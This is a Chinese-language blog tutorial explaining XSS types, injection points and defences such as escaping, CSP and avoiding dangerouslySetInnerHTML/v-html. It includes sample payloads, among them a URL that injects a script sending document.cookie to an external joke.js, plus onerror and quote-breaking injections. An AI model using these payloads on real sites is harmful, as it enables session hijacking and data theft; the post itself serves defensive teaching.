```yaml
---
layout: post
title: "XSS攻击和防范"
date: 2018-03-12
description: "XSS"
tag: web安全 
---   
```



> XSS(Cross Site Scripting), 中文直译"跨站脚本攻击", 是我们在web开发中常见的一个安全问题, 如果你的网站发生了XSS攻击, 那么可能会导致严重的问题, 对网站和用户造成损失. 所以, 为了防患于未然, 我们需要掌握 XSS的方方面面, 在开发中要防范它.

首先我们来介绍一些XSS相关的基本概念

### 什么是XSS? 
XSS跨站脚本攻击实际上就是在你的网站中由于各种原因执行了其他人的恶意script代码, 从而对你的网站和用户造成了影响. ( 执行他人的代码不限于用于输入的, 外链引入的, 本站或者外站的, 所以这里的跨站可以从广义上理解.) 

### XSS有哪些危害?
由于XSS的本质是在我们的网页上执行JS, 所以JS能干的它都能干, 具体要做什么 `"缺德"` 的事儿, 取决于攻击者的想象力.
可以大致总结一下攻击脚本能做的事儿

* 获取/修改/删除页面数据 (DOM操作)
* 获取网站cookie或凭证(document.cookie)
* 劫持/修改/执行恶意前端逻辑 (执行JS代码)
* 发送请求 (ajax/jsonp), 偷取网站数据/用户数据
* 泄漏用户登录密码和登录态
* 用DOM手段欺骗用户`感情` (^-^)
* ...

可以看到, XSS的攻击的危害是非常大的, 例如: XSS获取cookie后可以登录用户账户, 从而恶意操作或窃取信息,  这会给用户造成损失.

### XSS攻击原理示例

![XSS](/images/xss-sample.png)

可以看到, 如果你的程序对用户输入的脚本没有任何过滤, 后端也没有转义的话, 最终攻击者的脚本将会在你的页面上执行恶意脚本, 这仅仅是一个示例, 还有很多情况, 我们在后面逐一介绍.

### XSS的分类
* 反射型XSS: 通过URL的参数注入脚本
* 存储型XSS: 未经转义直接存储到数据库(危害巨大)

### 1.反射型XSS

#### 恶意用户可能在url的参数中添加script脚本

请看代码:

```
用户在浏览器输入:  
http://blog.nodejs.tech?from=<script>alert(document.cookie)</script>&to=<script>$('body').append('<script src="//joke.js?cookie=' +   document.cookie  + '"></script>')</script>

前端代码:
<script>
  $('#from').html(getURLParam('from'))
  $('#to').html(getURLParam('to'))
</script>
```

可以看到, 我们的前端代码在没有对"from"参数做任何处理的情况下就显示到页面上, 这个时候就形成了XSS攻击; 示例中的 "to"参数由于在本站中请求了外站的`js`文件, 直接把本页面中的cookie给传给了攻击者的脚本, 这是更危险的事儿.

> XSS攻击注入点一般有下面4种:

* HTML节点的内容 (上述代码)
* HTML属性
* JS代码
* 富文本编辑器

## ***下面来介绍下其他的3种***

> HTML属性注入
攻击原理: 利用标签某些js相关属性, 通过注入脚本, 多加引号提前关闭属性, 达到执行攻击脚本的目的, 示例如下:

```
浏览器地址输入:
http://blog.nodejs.tech?avatar="%20onerror="alert('hello xss')"

<img src="${avatar}" />
如果src被设置为URL参数中"avatar": 

则最终会变成
<img src="haha" onerror="alert('hello xss')" />
```

可以看到, 上述代码中的 <img>的 "src"属性由于XSS的攻击, 引号被提前关闭, 导致注入了 onerror逻辑代码

> JS代码注入
攻击原理: 和属性注入XSS类似

```
var userComment = "${comment}"
如果 "comment"是XSS攻击代码: haha";alert('hello xss');"
最终的 userComment = "haha";alert('hello xss');""
```

上述的 userCommont由于其引号被提前结束, 所以在后面执行了攻击脚本的内容

> 富文本编辑器
攻击原理: 富文本中保留了HTML标签, 所以会存在被攻击的可能

上面说到了XSS攻击的几种情况, 可以总结一下, XSS的发生基本都是在插值的时候, 要防范XSS是一件麻烦的事儿, 下面我们来介绍一下常见的XSS防范方法.

### XSS常见防范方法
* 服务端设置响应头: `X-XSS-Protection` , 它的值可选为: 0 (关闭XSS保护), 1(开启XSS保护, 现代浏览器默认行为). 这种设置响应头的方式适用于 反射型XSS中的前2种, 也就是在浏览器URL参数中携带了脚本并且在HTML内容或者属性中插值的时候, 这个时候会被浏览器阻止, 页面无法访问; 而JS代码中的插值去不会去防范; 从这里可以看出这种浏览器防止XSS的方式非常有限

* 对于HTML内容,属性做`转义`(转义&符号大于小于单双引号空格), 防范HTML内容和属性的XSS工具

* 对JS变量字符串中的斜杠单双引号进行`转义`, 防范JS中的XSS攻击

* 对于富文本内容, 按照白名单保留标签和属性(可以使用 cheerio库, DOM 操作)

* CSP(Content Security Policy)内容安全策略, 设置可执行白名单, 参考 http://www.ruanyifeng.com/blog/2016/09/csp.html

### react和vue中的innerHTML的使用建议

> 在react中可以使用 dangerouslySetInnerHTML来设置一个组件的内部的HTML, 这个操作是危险的, 可能遭受XSS攻击, 从react对这个属性的命名也可以看出来, 所以我们最好避免使用 dangerouslySetInnerHTML

> 在vue中, 可以使用 v-html设置一个元素的innerHTML, 受到 react的启发, 我们最好也避免使用它, 除非内容是受信任的

在 react的 {} 和 vue的双括号 的值都是经过转义的, 可以放心使用






转载请注明原地址，[本文首发于http://blog.nodejs.tech/](http://blog.nodejs.tech) 谢谢！






















